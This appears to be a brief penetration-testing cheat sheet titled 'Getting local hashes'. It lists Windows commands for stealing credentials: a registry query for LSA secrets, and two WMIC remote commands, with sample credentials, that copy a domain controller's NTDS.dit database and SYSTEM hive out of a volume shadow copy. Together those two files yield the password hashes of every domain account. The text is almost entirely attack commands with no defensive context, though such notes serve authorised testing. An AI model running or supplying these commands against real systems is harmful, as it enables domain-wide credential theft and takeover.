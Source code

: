# Getting local hashes

Secrets

```
reg query HKLM\Security\Policy\Secrets
```

## WMIC

Note, remove creds to run locally.

```
wmic /node:dc /user:leon /password:password1 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\ntds.dit 2>&1"

wmic /node:dc /user:domain\leon /password:pentest! process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM\ C:\temp\SYSTEM.hive 2>&1"
```
